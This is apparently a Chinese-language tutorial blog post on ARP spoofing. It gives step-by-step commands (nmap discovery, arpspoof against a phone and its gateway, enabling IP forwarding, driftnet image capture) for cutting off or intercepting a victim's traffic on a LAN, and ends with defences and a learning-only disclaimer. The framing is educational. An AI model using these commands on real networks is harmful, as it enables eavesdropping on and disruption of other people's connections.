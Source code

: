 ```yaml
---
title: ARPspoofing
author: smona
published: true
date: '2016-04-17T10:08:03.000Z'
layout: post
---
```


**科普**
----
ARP攻击和欺骗是网络安全中比较经典的流量截取手段，特别是适合内网攻击。整个攻击原理简单举例来说就是作为攻击方A，利用网络层的ARP协议不安全性（估计ARP协议设计时候认为网络上IP和MAC都是**很诚实地**对应），伪造应答包（包含网关IP和攻击方的MAC地址），发送给受害方B，B通过接受到攻击方发送的ARP应答包，在自己的ARP缓存表中写入了虽然是网关的IP（前提是受害方B之前没有绑定过网关IP和其对应正确的MAC，不然ARP欺骗就没有用了），但是对应的MAC却是属于攻击方A的MAC，然后受害方B在浏览网络的时候，所有流量必须经过攻击方A，通过这种手段，攻击方A可以捕获受害方的上网流量。

**说明**
--
攻击方A：LinuxMint   IP：192.168.3.100
受害方B：某安卓手机  IP：192.168.3.101  --理论上能基于ARP协议上网的设备都可以
网关	：192.168.3.1
工具：
①nmap.--主机发现
②dsniff.--ARP欺骗
③driftnet.--图片截取
P.s.这三个工具在软件源里面都有，sudo apt-get install  packagename一下就好了，当然如果是用Kali的就不用麻烦下载安装了，直接用就好了
本次实验目的：
㈠对受害方B进行断网攻击
㈡进行受害方B所浏览图片的截取.

**ARP欺骗**
---------
**Ⅰ.首先查看自己的网络情况**
(这里是linux口令，windows是ipconfig)

```
ifconfig
```
找出本机使用的网卡   IP 子网掩码（subnet mask）
这里攻击方A的网卡：wlan0    IP：192.168.3.100  子网掩码：255.255.255.0 
通过上面我们就可以知道我们属于的局域网的CIDR：192.168.3.100/24

**Ⅱ.nmap主机发现**

```
nmap -sn 192.168.3.100/24
```
当然因为现在是实验，所以你会发现主机发现结果是有 “3 hosts up”，分别是网关，攻击方A和受害方B。非实验环境下还需要抓包分析目标机行为得出其对应IP地址，这里就不赘述。
这一步我们得出了局域网中的主机存活情况

**Ⅲ.ARP欺骗**
先受害方B到网关

```
arpspoof -i wlan0 -t 192.168.3.101  192.168.3.1
```

在网关到受害方B

```
arpspoof -i wlan0 -t 192.168.3.1  192.168.3.101
```
因为处于安全性考虑linux默认是关闭包转发的，所以这时候完成欺骗后，因为没有攻击机的包转发，受害方B是无法上网的，这就是所谓的ARP断网攻击，显然这只是让受害方B无法上网，我们还没有达成目标，更重要的是我们想知道受害方B所浏览的图片情况。这里我们需要打开linux的包转发功能。

**打开Linux包转发**
----------------

**a.登陆root权限**
（当然你要不嫌麻烦这步可以省略，只不过你后面要不断用sudo  还要打密码）
```
sudo su
```
**b.临时生效包转发**
cat命令查看现在ip_forward值
```
cat  /proc/sys/net/ipv4/ip_forward
0
```
输出0，表示包转发关闭，一般linux都是默认关闭的。

```
echo "1">> /proc/sys/net/ipv4/ip_forward
```

```
cat /proc/sys/net/ipv4/ip_forward
1
```
输出1，表示包转发开启.
以上提到的方法只是暂时开启，重启或者其他一些操作会让值变回0，要永久生效的办法请自行百度。
到这里真正完成ARP欺骗。

**图片抓取**
------

```
driftnet -i wlan0 -a -d /home/smona/桌面/pic
```
其中 -a 是后台，意思是不打印到显示框；而-d 是捕获图片地址路径。
受害方B所浏览的所有图片内容会一一保存到你所指定的目录内。
	

**防范**
----
ARP欺骗的防范并没有特别有效的办法，一般来说就是一下几种：

```
①arp -s 绑定网关IP和其正确的MAC，保持静态；
②arp -a 查看本机arp表发现ARP欺骗行为；
③通过ARP on,ARP wath，XARP 等工具检测ARP欺骗行为；

```
安全意识：
**个人方面**：用户在公共场合尽量不进行重要事务的处理，如若有必要尽量使用加密的方法，比如最简单的能用https的网址用https，警惕可疑的wifi等等；
**网关等服务方方面**：网关等提供服务方的配合


**免责声明**
----
本博文提供方法仅仅用来学习ARP协议以及对ARP欺骗的深入理解
不提倡用于侵犯隐私等不正当行为
最后感谢网路上的各种ARP知识和教学的帖子分享，让我受益匪浅，同样我也欢迎大家在评论指出错误和分享经验~
